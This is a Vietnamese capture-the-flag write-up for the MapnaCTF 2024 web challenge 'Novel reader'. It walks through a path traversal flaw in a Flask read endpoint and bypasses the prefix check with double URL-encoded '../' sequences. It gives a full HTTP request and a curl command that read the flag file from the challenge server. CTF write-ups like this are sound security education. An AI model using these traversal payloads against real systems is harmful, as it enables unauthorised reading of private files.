 ```yaml
---
title: "MapnaCTF 2024 - web"
layout: single
excerpt: "MAPNA CTF 2024, a beginner-friendly Capture The Flag event, to be held between. Sat, 20 Jan. 2024, 15:00 UTC — Sun, 21 Jan. 2024, 15:00 UTC 💻 "
header:
show_date: true
classes: wide
header:
  teaser: "https://hackmd.io/_uploads/H1CoYbosp.png"
  teaser_home_page: true
  icon: "https://hackmd.io/_uploads/By3gJwG0h.png"
categories:
  - CTF
tags:
  - CTF
  - Vietnamese
---
```


<p align="center">
<img src="https://hackmd.io/_uploads/H1CoYbosp.png">
</p>

# Table
```
- Web
  Novel reader: 42 point - 144 solves
  Advanced JSON Cutifier: 59 point - 88 solves
```

# Web
## Novel reader - 44 point
### Description
```
We have many fun novels for ya...
http://3.64.250.135:9000
```

Source code [here](https://github.com/TaiPhung217/CTF_writeup/blob/main/2024/mapnactf2024/novel-reader_d78366cb079727a6bd3809219df9bc7835d17fd1.txz)

### Solution

Giao diện web như sau: 
![image](https://hackmd.io/_uploads/ryT0JzCKa.png)

Ứng dụng có 2 chức năng chính là readfile và charge account. Mặc định Mỗi người dùng ban đầu sẽ có 100 Balance và 1 Words Balance.

Trong `list private` của endpoint `/api/list-private-novels` có chứa file 

```
["A-Secret-Tale.txt"]
```

với nội dung có chứa FLAG: 
```
Once a upon time there was a flag. The flag was read like this: MAPNA{test-flag}. FIN.
```

=> Mục tiêu: đọc được file `A-Secret-Tale.txt`

trong `main.py`
```py
@app.get('/api/read/<path:name>')
def readNovel(name):
    name = unquote(name)
    if(not name.startswith('public/')):
        return {'success': False, 'msg': 'You can only read public novels!'}, 400
    buf = readFile(name).split(' ')
    buf = ' '.join(buf[0:session['words_balance']])+'... Charge your account to unlock more of the novel!'
    return {'success': True, 'msg': buf}
```

ở đây ta thấy giá trị truyền vào được đưa vào hàm readFile để đọc và trả về dữ liệu cho người dùng nếu có đủ `words_balance`.

```http://3.64.250.135:9000/api/read/$PAYLOAD_INJEC```

Ở đây ta có thể path travesal vượt qua hàm `unqute` của `urllib.parse` bằng cách url encoding payload `%2e` => `%252f`

tôi đã thử đọc file `A-Secret-Tale.txt` bằng cách này với payload:
```
GET /api/read/public%252F%252E%252E%252Fprivate%252FA%252DSecret%252DTale%252Etxt HTTP/1.1
Host: 3.64.250.135:9000
Accept: */*
X-Requested-With: XMLHttpRequest
Referer: http://3.64.250.135:9000/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: session=[REDACTED]
Connection: close
```

tuy nhiên, nó không thành công do chúng ta không có đủ `words_balance`. 

![image](https://hackmd.io/_uploads/S1jdMGRta.png)

payload cuối:
```
/api/read/public/%252e%252e/%252e%252e/flag.txt
```

### Script
```py
curl http://3.64.250.135:9000/api/read/public/%252e%252e/%252e%252e/flag.txt
```

result:
```
{"msg":"MAPNA{uhhh-1-7h1nk-1-f0r607-70-ch3ck-cr3d17>0-4b331d4b}\n\n... Charge your account to unlock more of the novel!","success":true}
```


